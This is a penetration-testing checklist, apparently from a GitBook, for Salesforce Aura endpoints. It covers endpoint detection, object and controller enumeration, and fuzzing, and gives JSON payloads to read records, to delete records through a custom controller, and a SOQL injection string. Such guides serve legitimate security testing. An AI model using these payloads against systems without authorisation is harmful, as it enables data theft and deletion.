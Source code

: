 # Salesforce SAAS Apps Hacking

### **Preparation Phase**

1. **Gather Tools**
   * Burp Suite or OWASP ZAP
   * HTTP Request/Response Interceptor
2. **Set Up Environment**
   * Configure Burp/ZAP with browser
   * Ensure target Salesforce application is accessible

**Pre-Check**

1. **Identify Salesforce Technologies**
   * Browse application via Burp/ZAP and check HTTP History for paths:
     * `/s/sfsites/aura`
     * `/aura`
     * `/sfsites/aura`
   * In Repeater, make a POST request to the paths and check for response patterns:
     * `"actions":[`
     * `aura:clientOutOfSync`
     * `aura:invalidSession`

### **Reconnaissance**

1. **Identify Standard Objects**
   * Retrieve list of standard objects from Salesforce documentation
   * S[tandard Objects | SOAP API Developer Guide | Salesforce Developers](https://developer.salesforce.com/docs/atlas.en-us.api.meta/api/sforce\_api\_objects\_list.htm)
   * Save to `objects.txt`
2. **Identify Custom Objects**
   * Look for objects ending in `__c`
   * Use `getObjectInfo` and `getHostConfig` actions
   * Add to `objects.txt`
3.  **Identify Standard Controllers and Actions**

    <figure><img src="../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

    * Inspect `app.js` and `aura_prod.js` files
    * Grep for `componentService.initControllerDefs([{` pattern
    * Save identified controllers and actions
4.  **Identify Custom Controllers and Actions**

    * Inspect JS files and HTTP requests
    * Look for custom controllers starting with `apex://`



    ```apex
    STANDARD CONTROLLER:
    aura://RecordUiController/ACTION$getObjectInfo
    CUSTOM CONTROLLER:
    apex://New_Sales_Controller/ACTION$getSalesData
    ```

    * Save identified controllers and actions

### **Fuzzing**

1. **Set Up Fuzzing in Burp/ZAP**
   * Send POST request with Aura endpoint to Repeater
   * Replace `message` parameter with different options
   * Use Intruder to fuzz with `objects.txt`
2. **Fuzzing Actions**
   * `getObjectInfo`
     * Payload: \
       `{"actions":[{"id":"1;a","descriptor":"aura://RecordUiController/ACTION$getObjectInfo","params":{"objectApiName":"***"}}]}`
   * `getConfigData`
     * Payload:\
       &#x20;`{"actions":[{"id":"1;a","descriptor":"aura://HostConfigController/ACTION$getConfigData","params":{}}]}`
   * `getListsByObjectName`
     * Payload:\
       &#x20;`{"actions":[{"id":"1;a","descriptor":"aura://ListUiController/ACTION$getListsByObjectName","params":{"objectApiName":"***"}}]}`

### **Retrieving Sensitive Information**

1. **Check for Org-Wide Sharing Misconfigurations**
   * Use `getItems` action to retrieve records
     * Payload: `{"actions":[{"id":"123;a","descriptor":"serviceComponent://ui.force.components.controllers.lists.selectableListDataProvider.SelectableListDataProviderController/ACTION$getItems","params":{"entityNameOrId":"***","layoutType":"FULL","pageSize":100,"currentPage":0}}]}`
   * Use `getRecord` action to retrieve specific records
     * Payload: `{"actions":[{"id":"123;a","descriptor":"serviceComponent://ui.force.components.controllers.detail.DetailController/ACTION$getRecord","params":{"recordId":"***"}}]}`
2. **Check for Custom Controller Misconfigurations**
   * Identify custom actions like `getSalesData` and `deleteSalesDataById`
     * Payload for retrieving data: `{"actions":[{"id":"1;a","descriptor":"apex://New_Sales_Controller/ACTION$getSalesData","params":{}}]}`
     * Payload for deleting data: `{"actions":[{"id":"1;a","descriptor":"apex://New_Sales_Controller/ACTION$deleteSalesDataById","params":{"id":"***"}}]}`

### **SOQL Injection**

1. **Identify Potential Injection Points**
   * Inspect HTTP requests for SOQL queries
2. **Craft Injection Payloads**
   * User input: `name=test%') OR (Name LIKE '`
   * Expected vulnerable query: `SELECT Id FROM Contact WHERE (IsDeleted = false AND Name LIKE '%test%') OR (Name LIKE '%')`

### **Documentation and Reporting**

1. **Document Findings**
   * Note each identified object, controller, and action
   * Record fuzzing results and any sensitive data retrieved
   * Detail any successful SOQL injections and their impact
2. **Create a Comprehensive Report**
   * Executive summary of findings
   * Detailed methodology and steps taken
   * Screenshots and evidence of vulnerabilities
   * Recommendations for remediation

#### **References**

* [Salesforce Review and Certification](https://help.salesforce.com/articleView?id=sf.review\_and\_certification.htm\&type=5)
* [https://infosecwriteups.com/in-simple-words-pen-testing-salesforce-saas-application-part-2-fuzz-exploit-eefae11ba5ae](https://infosecwriteups.com/in-simple-words-pen-testing-salesforce-saas-application-part-2-fuzz-exploit-eefae11ba5ae)
* [Enumerated Salesforce Classes](https://www.enumerated.de/index/salesforce#classes)
* [Standard Objects | SOAP API Developer Guide | Salesforce Developers](https://developer.salesforce.com/docs/atlas.en-us.api.meta/api/sforce\_api\_objects\_list.htm)
